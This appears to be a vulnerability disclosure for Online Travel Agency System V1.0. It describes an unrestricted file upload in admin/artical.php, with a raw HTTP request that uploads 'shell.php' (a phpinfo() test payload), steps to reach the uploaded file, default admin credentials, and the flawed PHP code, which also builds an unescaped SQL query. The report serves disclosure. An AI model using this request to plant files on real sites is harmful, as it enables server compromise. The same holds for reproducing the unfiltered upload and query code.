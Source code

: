 # [Online Travel Agency System-File upload vulnerabilities-artical.php]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Affected Version]:** Online Travel Agency System V1.0

**[Test Environment]:** windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** File upload vulnerabilities

**[Vulnerability Url]:** http://localhost/Travel/admin/artical.php

**[Vulnerability Location]:** /Travel/admin/artical.php

**[Vulnerability Test]:**

1. First visit http://10.151.222.198/Travel/admin/artical.php, display the Add Employee page, fill in the relevant data, and upload a PHP file at the `Picture` with the content `<?php phpinfo(); ? >`

   ![](../../img/20230428174613.png)

2. After clicking SUBMIT, get the packet as follows

   ```bash
   POST /Travel/admin/artical.php HTTP/1.1
   Host: 10.151.222.198
   Content-Length: 621
   Cache-Control: max-age=0
   Upgrade-Insecure-Requests: 1
   Origin: http://10.151.222.198
   Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryDN6lMEHoBH36ZZgJ
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
   Referer: http://10.151.222.198/Travel/admin/artical.php
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9
   Cookie: PHPSESSID=86dm5d6ncj5mk3db07gti39pb4
   Connection: close
   
   ------WebKitFormBoundaryDN6lMEHoBH36ZZgJ
   Content-Disposition: form-data; name="title"
   
   aaaa
   ------WebKitFormBoundaryDN6lMEHoBH36ZZgJ
   Content-Disposition: form-data; name="file"; filename="shell.php"
   Content-Type: application/octet-stream
   
   <?php phpinfo(); ?>
   ------WebKitFormBoundaryDN6lMEHoBH36ZZgJ
   Content-Disposition: form-data; name="page_type"
   
   home
   ------WebKitFormBoundaryDN6lMEHoBH36ZZgJ
   Content-Disposition: form-data; name="description"
   
   this is a page
   ------WebKitFormBoundaryDN6lMEHoBH36ZZgJ
   Content-Disposition: form-data; name="save"
   
   submit
   ------WebKitFormBoundaryDN6lMEHoBH36ZZgJ--
   
   ```
   
   The response results are shown in the figure
   
   ![](../../img/20230428174555.png)
   
4. Visit http://10.151.222.198/Travel/admin/artical_view.php, where all articals are displayed, including the article just added, and the path to the image is displayed in the front-end source code.

   ![](../../img/20230428174917.png)

5. Visit http://10.151.222.198/Travel/admin/uploaded/shell.php

   ![](../../img/20230428175213.png)

**[code analysis]:**

In /Travel/admin/artical.php:

```php
<?php
if(isset($_POST['save']))
{
$title=$_POST['title'];	
$description=$_POST['description'];	
$page_type=$_POST['page_type'];	

$dir='uploaded/';
$uploadfile=$dir.basename($_FILES['file']['name']);
if(move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)){
$filename=$_FILES['file']['name'];
}

$query_insert=mysqli_query($con,"INSERT INTO pages(`title`, `picture`, `page_type`,  `description`) VALUES ('$title', '$filename', '$page_type', '$description')" )  or die(mysqli_error($con));
}
?>
```

No filtering is done on uploaded filenames

In /Travel/admin/artical_view.php

```php+HTML
<?php
$sql=mysqli_query($con,"select * from pages ORDER BY 'Aid' DESC")or die("Query Error");
while($row=mysqli_fetch_array($sql)){
	$page_id=$row['page_id'];
?>

// In line 31
<img src="uploaded/<?php  echo $row['picture']; ?>" width="120" height="100">
```

And the file address is echoed on the page

